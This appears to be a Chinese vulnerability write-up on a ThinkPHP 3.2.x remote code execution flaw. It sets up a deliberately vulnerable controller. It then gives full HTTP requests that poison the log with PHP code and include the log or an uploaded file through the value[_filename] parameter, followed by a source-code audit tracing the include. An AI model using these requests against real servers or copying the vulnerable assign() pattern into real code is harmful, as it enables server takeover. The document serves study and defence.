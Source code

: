 # ThinkPHP3.2.x RCE

Author: H3rmeks1t

Data: 2021.08.03

# 初始配置

- 这里利用`ThinkPHP3.2.3`做示例，[戳此进行下载](http://www.thinkphp.cn/donate/download/id/610.html)
- 下载后的源码中，需要对`Application/Home/Controller/IndexController.class.php`内容进行修改

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index($value=''){
        $this->assign($value);
        $this->show('<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "微软雅黑"; color: #333;font-size:24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}</style><div style="padding: 24px 48px;"<h1>:)</h1><p>欢迎使用 <b>ThinkPHP</b>！</p><br/>版本 V{$Think.version}</div><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_55e75dfae343f5a1"></thinkad><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script>','utf-8');
    }
}
```

# 漏洞利用

利用`burpsuite`进行抓包修改包避免编码问题造成漏洞无法利用
## debug模式开启
![在这里插入图片描述](https://img-blog.csdnimg.cn/9ccfc8bf31894e5ea1fb2c25f0671884.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
先用`Thinkphp Getshell`工具检测一下漏洞是否存在

![在这里插入图片描述](https://img-blog.csdnimg.cn/54093f5756724618af86ca6f9d03bce5.png#pic_center)

请求数据包，查看日志文件`Application/Runtime/Logs/Home/21_08_02.log`发现成功写入

```bas
GET /cms/index.php?m=Home&c=Index&a=index&test=--><?=phpinfo();?HTTP/1.1
Host: 192.168.10.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-CN,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=rfpmtb683svnoh5emql41ka803
Connection: close
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b61d85c51d7841ef8373e48930deedd3.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

构造攻击请求，成功触发该漏洞

```bash
GET /cms/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Home/21_08_02.log HTTP/1.1
Host: 192.168.10.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-CN,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=rfpmtb683svnoh5emql41ka803
Connection: close
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/7fe012fbd2b24bdda423c12367dff181.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## debug模式未开启
![在这里插入图片描述](https://img-blog.csdnimg.cn/e5674e7a7dde47268f902c9e7b5fbe56.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
请求数据包

```bas
GET /cms/index.php?m=--><?=phpinfo();?HTTP/1.1
Host: 192.168.10.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-CN,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=rfpmtb683svnoh5emql41ka803
Connection: close
```
构造攻击请求，成功触发该漏洞

```bash
GET /cms/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_08_02.log HTTP/1.1
Host: 192.168.10.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-CN,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=rfpmtb683svnoh5emql41ka803
Connection: close
```
## 文件包含\上传

上传具有恶意代码的任何文件到服务器上，直接包含其文件相对或绝对路径即可

```bas
http://192.168.10.9/cms/index.php?m=Home&c=Index&a=index&value[_filename]=./phpinfo.php
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/51be7c7e3e3c4f1383e29e90e06eaed0.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# 漏洞分析
## 程序执行流程

![在这里插入图片描述](https://img-blog.csdnimg.cn/51780ca4fe034ff29a0dac5767cb211f.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## 漏洞利用原理
在ThinkPHP3.2.3框架的程序中，如果要在模板中输出变量，需要在控制器中把变量传递给模板，系统提供了assign方法对模板变量赋值，本漏洞的利用条件为assign方法的第一个变量可控

## 本地代码审计

先跟进`Application/Home/Controller/IndexController.class.php`，功能代码中的`assign`方法中第一个变量为可控变量

![在这里插入图片描述](https://img-blog.csdnimg.cn/a6b90b743ff3481eb416b67bb8b6d1d2.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

全局搜索`assign`，跟进`ThinkPHP/Library/Think/View.class.php`，可控变量进入assign方法赋值给`$this→tVar`变量

![在这里插入图片描述](https://img-blog.csdnimg.cn/f99d82bcab6448bc8a08aa9bced950fb.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

进入`show`方法，跟进`ThinkPHP/Library/Think/Controller.class.php`，发现进一步调用了`display`方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/476e0743b5b0469aa8ede3707a6db219.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

全局搜索`display`方法，跟进`ThinkPHP/Library/Think/View.class.php`，`display`方法开始解析并获取模板文件内容，此时模板文件路径和内容为空

![在这里插入图片描述](https://img-blog.csdnimg.cn/fc484aabf963478295ae912b17c488d5.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

进入`fetch`方法，传入的参数为空时会根据配置获取默认的模板文件位置 `(./Application/Home/View/Index/index.html)`，之后系统配置的默认模板引擎为think，所以会进入else分支，获取`$this→tVar`变量值赋值给`$params`，之后进入`Hook::listen`方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/0bed374945df474cbf3d96f8f80bbe47.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

进入`listen`方法，跟进`ThinkPHP/Library/Think/Hook.class.php`，进入`exec`方法

![在这里插入图片描述](https://img-blog.csdnimg.cn/8256f4599af14d469e0766fb2485cce8.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

进入`exec`方法中，处理后调用`Behavior\ParseTemplateBehavior`类中的`run`方法处理`$params`这个带有日志文件路径的值

![在这里插入图片描述](https://img-blog.csdnimg.cn/6f2307b1caea4859a2771302e119c93e.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

进入`run`方法，跟进`ThinkPHP/Library/Behavior/ParseTemplateBehavior.class.php`，进入else分支调用`Think\Template`类中的`fetch`方法对变量`$_data`进行处理

![在这里插入图片描述](https://img-blog.csdnimg.cn/1be04e3cc0a541178ea7097830e9e6fa.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进`ThinkPHP/Library/Think/Template.class.php`，获取缓存文件路径后进入Storage的`load`方法中

![在这里插入图片描述](https://img-blog.csdnimg.cn/c6b56074d1cb48beb24cd4860394b0bd.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

跟进到`ThinkPHP/Library/Think/Storage/Driver/File.class.php`的`load`方法中，`$_filename`为之前获取的缓存文件路径，`$vars`则为之前带有_filename=日志文件路径的数组，`$vars`不为空则使用`extract`方法的EXTR_OVERWRITE默认描述对变量值进行覆盖，之后include该日志文件路径，导致文件包含，触发`ThinkPHP 3.x Log RCE`漏洞

![在这里插入图片描述](https://img-blog.csdnimg.cn/36cd17cc3e7f43f495d10471492d1cd6.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 漏洞通报

[戳此查看漏洞通报](https://mp.weixin.qq.com/s/_4IZe-aZ_3O2PmdQrVbpdQ)